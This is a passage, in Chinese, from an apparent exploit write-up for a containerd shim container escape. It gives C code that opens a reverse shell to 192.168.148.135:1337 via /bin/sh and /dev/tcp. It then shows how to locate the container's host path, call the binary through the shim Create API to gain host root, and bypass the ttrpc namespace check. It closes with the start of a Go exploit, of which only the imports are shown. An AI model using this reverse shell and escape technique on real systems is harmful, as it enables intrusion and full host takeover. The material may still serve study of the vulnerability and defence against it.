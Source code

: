 利用过程如下：

（1）编写 nc 代码并编译，放在 docker 的根目录下：

```
#include <stdio.h>
#include <stdlib.h>

int main()
{
        system("/bin/sh -i >& /dev/tcp/192.168.148.135/1337 0>&1");
        return 0;
}


```

（2）在 docker 里面获取容器的存储目录，docker 的根目录对应 host 上的路径为：

```
/var/lib/docker/overlay2/48f9caf0a731807f71c7277e8dfaeef58adb7c8f9b6180facdb3868bf1944a92/merged

```

（3）利用 shim 的 Create api 来调用（2）路径中存放的 nc 程序，就会执行 nc 连接到另一台机器 192.168.148.135，反弹 shell，得到 host 的 root 权限，完成虚拟机逃逸。

效果如下：

**docker：**

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228173430-e2efe5b8-48ef-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228173430-e2efe5b8-48ef-1.png)

**host：**

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228173450-eea56176-48ef-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228173450-eea56176-48ef-1.png)

**另一台机器 192.168.148.135：**

[![](https://xzfile.aliyuncs.com/media/upload/picture/20201228173514-fcd4784a-48ef-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20201228173514-fcd4784a-48ef-1.png)

**需要注意的是**：执行 binary:///bin/sh?-c= 这样的 IO 进程，要求 ttrpc 连接必须要有一个 containerd 命名空间，可以通过以下代码绕过该检查：

```
md := ttrpc.MD{} 
md.Set("containerd-namespace-ttrpc", "notmoby")
ctx = ttrpc.WithMetadata(ctx, md)


```

漏洞利用代码：

```
package main

import (
    "context"
    "errors"
    "io/ioutil"
    "log"
    "net"
    "regexp"
    "strings"

    "github.com/containerd/ttrpc"
    shimapi "github.com/containerd/containerd/runtime/v1/shim/v1"
)

```